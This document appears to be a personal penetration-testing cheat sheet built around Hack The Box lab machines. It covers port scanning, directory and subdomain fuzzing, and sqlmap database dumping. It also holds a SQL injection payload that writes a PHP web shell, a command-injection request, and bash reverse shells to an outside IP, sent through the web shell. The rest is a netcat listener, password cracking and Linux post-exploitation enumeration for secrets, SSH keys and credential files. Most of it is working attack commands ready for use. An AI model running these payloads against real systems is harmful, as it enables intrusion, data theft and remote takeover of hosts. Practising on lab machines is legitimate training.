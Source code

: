 # nmap

 - `nmap -sV --open -p- 10.129.5.201`
 - `nmap -sC -sV -p 22,80,8065 10.129.5.201`
 - `nmap --script=vuln -sV -p 22,80,8065 10.129.5.201`
 - `sudo nmap -sV -sU -p- --min-rate 5000 10.129.5.201`
 - `sudo nmap -sU -p 161 -sV 10.129.5.201`

# Update /etc/hosts file

 - `echo "10.129.5.201 academy.htb" | sudo tee -a /etc/hosts`

# ffuf

> After running the following, you want to filter out noise using the -fl option 

 - `ffuf -w /usr/share/SecLists/Discovery/Web-Content/big.txt -u http://academy.htb/FUZZ`
 - `ffuf -w /usr/share/SecLists/Discovery/Web-Content/big.txt -u http://academy.htb/FUZZ -e .php,.html,.txt`
 - `ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://academy.htb/ -H "Host: FUZZ.academy.htb"`

# sqlmap

 - `sqlmap -r request --batch`
 - `sqlmap -r request --second-url "http://10.129.95.235/account.php"`
   - We use the second url paramater for when the output is stored in a different url

### Useful options

 - `--dbs` 
   - enumerate the database
 - `-D <db_name> --tables` 
   - enumerate the tables
 - `-D <db_name> -T <table_name> --columns` 
   - enumerate the columns in a table
 - `-D <database_name> --dump-all`
   - dump the entire database

# SQL Stuff

 - `psql -h 127.0.0.1 -U postgres -p`
 - `mysql -u <user> -p`
 - `Brazil' UNION SELECT "<?php SYSTEM $_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -`
   - This is used to drop a web shell when you can do a UNION injection and is a PHP app

# curl

 - `curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=27mmajj85si451dmcbtin048j9" | jq`
 - `curl -sv -X POST http://academy.htb/home.php --cookie "PHPSESSID=1i52bbppla8d5tn8uguvrh3g75" -H 'Content-Type: application/json' --data '{"module_id": "1; id"}'`
 - `curl http://10.129.95.235/test.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.148/4242 0>&1"'`

# Shells

 - `bash -i >& /dev/tcp/10.10.14.148/4242 0>&1`
 - `echo "bash -i >& /dev/tcp/10.10.14.15/4242 0>&1" | base64 -w 0`
 - `Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' -- -`
   - SQL injection to write a file to create a web shell

# nc

 - `nc -nvlp 4242`

# Stabilizing Shells

 1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 2. `ctrl+z`
 3. `stty raw -echo; fg`
 4. `export TERM=xterm`

# Password Cracking

 - `john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

# snmpwalk

 - `snmpwalk -v1 10.129.155.174:161 -c public`

# grep

 - `grep "*sh$" /etc/passwd`

# Linux Environment Enumeration

 - `whoami`
   - What user are we running as
 - `id`
   - What groups does the user belong to
 - `hostname`
   - What is the server named, can we gather anything from the naming convention
 - `ifconfig`
   - What subnet are we on
 - `sudo -l`
   - Can we run anything with sudo
 - `cat /etc/os-release`
   - Get the OS and release version
 - `echo $PATH`
   - Check to see if the path is misconfigured
 - `env`
   - Check to see if there are any secrets in the environment variables
 - `uname -a`
   - Get the Kernel version to see if there are any exploits we can take advantage of
 - `lscpu`
   - Get CPU type and version
 - `cat /etc/shells`
   - Get the login shells that exist on the server
   - tmux and screen are notable ones you can exploit
 - Check for defenses in place, some notable ones include
   1. Exec Sheild
   2. iptablse
   3. AppArmor
   4. SELinux
   5. Fail2ban
   6. Snort
   7. Uncomplicated Firewall (ufw)
 - `lsblk`
   - Enumerates info about block devices on the system (hard disks, USB drives, etc.)
   - If we discover and can mount an additional drive or unmounted file system they might contain sensitive info
 - `lpstat`
   - Find info about printers attached to the system
 - `cat /etc/fstab`
   - Checks for mounted and unmounted drives
 - `route`
   - See what other networks are available via which interface
 - `cat /etc/resolv.conf`
   - Do this if we re in a domain env - can use this as a starting point to query the AD env
 - `arp -a`
   - Shows the arp table which details what other hosts the target has been communicating with
 - `cat /etc/passwd`
   1. Username
   2. Password
   3. User ID (UID)
   4. Group ID (GID)
   5. User ID info
   6. Home dir
   7. Shell
 - `getent group sudo`
   - List members that are a part of a group that has access to sudo
 - Check `/home`
   - `.bach_history`
   - SSH keys
   - Cred files
 - `find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null`
   - Find .config files
 - `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`
   - Find all config files
